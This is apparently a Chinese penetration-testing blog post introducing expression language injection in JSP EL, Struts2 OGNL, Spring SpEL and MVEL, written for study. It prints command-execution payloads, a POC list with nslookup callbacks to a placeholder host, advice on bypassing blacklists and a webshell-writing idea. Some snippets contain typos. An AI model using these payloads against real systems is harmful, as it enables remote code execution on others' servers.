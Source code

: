 ```yaml
---
title: 表达式注入初探
comments: true
date: 2022-01-20 16:32:58
tags: ["表达式注入"]
categories:
- 渗透测试
cover: https://image.geoer.cn/img/image-20220120172956738.png
top_img:
description:
---
```


## 简介

2013年4月15日Expression Language Injection词条在OWASP上被创建，而这个词的最早出现可以追溯到2012年12月的《Remote-Code-with-Expression-Language-Injection》一文，在这个paper中第一次提到了这个名词。









## 常用的表达式语言



### JSP—JSTL_EL

#### 基础

EL表达式(表达式语言)是一种**在JSP中内置的语言**(也就是说所有的Java Web服务都必然会支持这种表达式。但是由于各家对其实现的不同，也导致某些漏洞可以在一些Java Web服务中成功利用，而在有的服务中则是无法利用)，可以用作用户访问页面的上下文以及不同作用域的对象，取得对象属性值或者执行简单的运算和判断操作：获取数据、执行运算、获取Web开发常用对象、调用Java方法。



**JSP四大作用域：**

- page：只在一个页面保存数据[`javax.servlet.jsp.PageCotent`]
- request：只在一个请求中保存数据[`java.servlet.httpServletRequest`]
- session：在一次会话中保存数据，仅供单个用户使用[`javax.servlet.http.HttpSession`]
- application：在整个服务器中保存数据，全部用户共享[`javax.servlet.ServletContenxt`]



**EL基础语法：**

在JSP中，用`${}`表示此处为EL表达式。

在未指定作用域时，依次向后寻找；

在指定了作用域时，在范围内寻找：如`${requestScope.name}`表示在request作用域范围内获取name变量。



**获取对象属性：**

一种方法，为：`${对象.属性}`，如`${param.name}`

另一种为，：`[]`符号，如：`${param[name]}`，当属性名存在特殊字符时需要使用此方式



**EL表达式也可以实例化Java的内置类：**

```jsp
//如 Runtime.calss会执行系统命令

<body>
    ${Runtime.getRuntime().exec("calc")}
</body>

```



```jsp
<spring:message text="${/"/".getClass().forName(/"java.lang.Runtime/").getMethod(/"getRuntime/",null).invoke(null,null).exec(/"calc/",null).toString()}">
</spring:message>
```





简答来说，EL表达式是Java代码的简化版，用户可以通过可控的输入注入一段EL表达式执行代码。但用户难以控制EL表达式进行表达式注入。





#### 渗透思路

获取webroot路径，exec执行命令echo写入一句话。











### Struts2—OGNL



表达式格式：

```bash
@[类全名（包括包路径）]@[方法名 | 值名]，例如：
@java.lang.String@format('foo %s', 'bar')
```



基本用法：

```java
ActionContext AC = ActionContext.getContext();
Map Parameters = (Map)AC.getParameters();
String expression = "${(new java.lang.ProcessBuilder('calc')).start()}";
AC.getValueStack().findValue(expression))
```



相关漏洞：s2-009、s2-012、s2-013、s2-014、s2-015、s2-016，s2-017、。。。



### Spring—SPEL

SPEL（Spring表达式语言），是Spring框架专有的EL表达式

SpEL使用 `#{…} `作为定界符，所有在大括号中的字符都将被认为是 SpEL表达式，我们可以在其中使用运算符，变量以及引用bean，属性和方法



#### **基本用法：**

```jsp
//在jsp页面中可以使用el表达式代替<%=%>，之间访问java对象。

String expression = "T(java.lang.Runtime).getRuntime().exec(/"calc/")";
String result = parser.parseExpression(expression).getValue().toString();
```

1.使用量表达式：

```java
"#{Hello world}"
```

2.使用java代码new/instance of
```java
Expression exp = parsee.parserExpression("new Spring('hello')");

```

3.使用T(type)

表示java.lang.Class实例：

```java
parse.parseExpression(T(Integer).MAX_VALUE)
```

使用T()运算符会调用类作用域的方法和常量。例如，在SpEL中使用Java的Math类，我们可以像下面的示例这样使用T()运算符：

```java
#{T(java.lang.Math)}
```

T()运算符的结果会返回一个java.lang.Math类对象。




#### **代码审计关键字：**

```
org.springframework.expression.spel.standard
SpelExpressionParser
parserExpress
expression.getValue()
expression.setValue()
...
```







#### SpEL漏洞

Spring为SpEL提供了两套不同的接口，分别是：

- SimpleEvaluationContext（更安全一些，推荐使用）
- StandardEvaluationContext：包含了SpEL的所有功能





**漏洞原因：**

开发人员未对用户输入进行处理就直接通过解析引擎对Spel继续解析。一旦用户能够控制解析的SpEL语句，便可以通过反射的方式构造代码执行的SpEL语句，从而达到RCE的目的。



例如：

```java
import org.springframework.expression.EvaluationContext;
import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.expression.spel.support.StandardEvaluationContext;

public class TTTTT {
    public static void main(String []args) throws Exception {
        String expr = "T(Runtime).getRuntime.exec(\"calc.exe\")";

        ExpressionParser  parser = new SpelExpressionParser();
        EvaluationContext evaluationContext = new StandardEvaluationContext();
        Expression expression = parser.parseExpression(expr);
        System.out.println(expression.getValue(evaluationContext));


    }
}

```



![](https://image.geoer.cn/img/image-20220120172956738.png)



**常用POC：**

```
${255*255}

T(Thread).sleep(10000)

T(java.lang.Runtime),getRuntime().exec('命令')
T(java.lang.Runtime),getRuntime().exec('nslookup xxxxx.com')

new java.lang.ProcessBuilder("命令").start()
new java.lang.ProcessBuilder("nslookup xxxxx.com").start()

#this.getClass().forName('java.lang.Runtime').getRuntime().exec('nslookup xxxxx.com')
```



需要绕过黑名单校验，对于急于正则的匹配绕过是很简单的：

- 利用反射于拆分关键字构造Payload
- 利用ScriptEngineManner









### Elasticsearch——MVEL



基本用法：

```java
java import org.mvel.MVEL;

public class MVELTest {
    public static void main(String[] args) { String expression = "new java.lang.ProcessBuilder(/"calc/").start();";
    Boolean result = (Boolean) MVEL.eval(expression, vars);
    }
}
```









## 参考文章



[(57条消息) Java 安全-手把手教你SPEL表达式注入_4ct10n-CSDN博客_spel表达式注入](https://blog.csdn.net/qq_31481187/article/details/108025512)

[Spring-data-commons(CVE-2018-1273)漏洞分析 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/172984.html)





